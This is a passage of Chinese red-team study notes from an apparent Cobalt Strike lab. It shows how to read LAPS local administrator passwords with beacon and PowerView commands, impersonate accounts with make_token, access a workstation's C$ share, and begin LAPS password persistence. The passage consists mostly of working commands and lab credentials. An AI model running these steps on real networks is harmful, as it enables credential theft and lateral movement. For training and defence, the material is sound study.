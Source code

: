 beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 5/20/2021 12:57:36 PM
```

我们首先横向到一个```DEV\1st Line Support```组成员```DEV\jking```，然后再次读取LAPS密码
```
beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : P0OPwa4R64AkbJ
ExpirationTimestamp : 3/23/2021 5:18:43 PM

beacon> rev2self
beacon> make_token .\lapsadmin P0OPwa4R64AkbJ
beacon> ls \\wkstn-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
```

## powerview
如果当前账号没有 LAPS cmdlets方法集，powerview的ms-Mcs-AdmPwd和ReadPropery 也可以等价枚举出LAPS密码
```
beacon> powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier

ObjectDN                                              SecurityIdentifier
--------                                              ------------------
OU=Workstations,DC=dev,DC=cyberbotic,DC=io            S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-2042698922-2891547269-1125

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
DEV\1st Line Support

beacon> make_token DEV\jking Purpl3Drag0n
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd

ms-mcs-admpwd 
------------- 
P0OPwa4R64AkbJ
```

课本捎带提到了[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)这个工具也可以做类似上面的操作

# LAPS Persistence

LAPS持久性，主要通过更新密码的过期时间来实现

查看过期时间
```
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime

